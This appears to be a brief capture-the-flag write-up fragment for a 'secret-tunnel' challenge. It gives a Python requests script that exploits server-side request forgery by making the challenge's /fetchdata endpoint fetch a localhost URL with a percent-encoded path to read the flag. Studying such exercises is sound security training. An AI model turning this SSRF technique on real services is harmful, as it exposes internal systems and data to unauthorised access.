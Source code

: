 Server-Side Request forgery

Example:

```py
import requests

base="https://secret-tunnel.chal.nbctf.com/"

r=requests.post(base+"/fetchdata",data={"url":"https://localhost:1337/%66flag"})
print(r.text)
```
